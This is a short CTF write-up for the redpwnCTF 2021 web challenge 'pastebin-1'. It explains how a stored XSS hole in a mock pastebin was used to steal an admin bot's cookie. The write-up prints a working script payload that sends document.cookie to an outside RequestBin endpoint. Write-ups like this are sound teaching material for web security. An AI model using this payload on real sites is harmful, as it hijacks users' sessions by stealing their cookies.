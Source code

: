 ```yaml
---
path: "/writeups/redpwn-2021"
date: 2021-07-09
title: "redpwnCTF 2021"
category: "ctf"
---
```


Link: https://ctf.redpwn.net/

***

# pastebin-1
### Category: web
### Author: BrownieInMotion

## Description
Ah, the classic pastebin. Can you get the admin's cookies?

## Solution
For this challenge, we are given two links. One is a mock pastebin website where you can enter text, submit it, and be given a link to where it persists. The second link is a website that allows you to redirect a bot to a specific url.

Based on the nature of the websites and the description it's fairly clear that this is a classic XXS challenge. The mock pastebin website allows JavaScript that we write to be injected into the DOM of whoever visits the page. We can exploit this to steal a person's cookie. First, I created a public [RequestBin](https://requestbin.com/) as an endpoint for our exploit. Then I created a new paste with the following content:

```html
<script>
document.write('<img src="https://en2enweozjgy8.x.pipedream.net?c='+document.cookie+'" />');
</script>
```

I then took the link to the newly created paste and fed it to the admin bot. The flag then appeared as a GET parameter in the RequestBin.

![Request Bin](./images/inspect-me/requestbin.png)
